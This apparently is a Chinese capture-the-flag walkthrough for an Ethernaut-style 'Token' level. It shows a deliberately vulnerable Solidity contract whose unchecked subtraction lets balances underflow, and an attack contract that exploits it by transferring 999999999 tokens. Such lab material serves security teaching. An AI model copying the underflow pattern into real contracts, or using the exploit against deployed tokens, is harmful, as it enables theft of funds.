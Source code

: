 你最开始有20个 token, 如果你通过某种方法可以增加你手中的 token 数量,你就可以通过这一关,当然越多越好

 这可能有帮助:

- 什么是 odometer?

```solidity
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.0;

import "5.Token/SafeMath.sol";

interface IToken {
    function transfer(address _to, uint _value) external returns (bool);
}

contract Token {
    using SafeMath for uint256;
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function attack() public {
        IToken(levelInstance).transfer(msg.sender, 999999999);
    }

}
```
